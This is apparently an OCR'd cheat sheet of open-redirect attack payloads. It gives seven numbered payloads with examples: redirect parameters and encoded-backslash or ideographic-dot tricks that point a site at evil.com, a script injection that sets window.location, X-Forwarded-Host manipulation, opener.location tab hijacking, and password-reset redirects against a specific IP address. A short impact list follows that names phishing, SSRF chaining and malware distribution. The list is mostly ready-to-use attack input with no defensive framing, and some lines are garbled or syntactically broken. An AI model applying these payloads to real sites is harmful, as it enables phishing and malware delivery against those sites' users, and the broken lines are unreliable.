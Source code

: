 # open redirect


1 - payload: {evil.com} 


===>>> example: site.com/.../redirect_uri=evil.com/...

===>>> example: site.com/.../next_url=evil.com/...

===>>> example: ===>>> example: site.com/.../returnurl=http://evil.com

2 - payload: {///%5Cevil.com/} 


===>>> example: site.com///%5Cevil.com/ 

3 - payload:  </script>window.location"http://evil.com"</script>


===>>> example: search box : injection

4 - payload: {bing.com}


===>>> example: ===>>> url ===>>> X-forwarded-host: bing.com

5 - payload: {%E3%80%82}


===>>> example: https://20.44.36.49//google%E3%80%82com , https://20.44.36.49//bing%E3%80%82com , https://20.44.36.49//yahoo%E3%80%82com

6 - payload: { opener.location="https://evil.com"}

===>>> example: email ===>>> inspect ===>>> console: opener.location="https://evil.com"

7 - payload: {forget password}

===>>> example: https://20.44.36.49/.../google.com


==================================================================


## impact:
- an attacker can do phishing with legitimate users
-  they can also chain this with SSRF
-  reputation loss, money loss
-  malware distribution
  
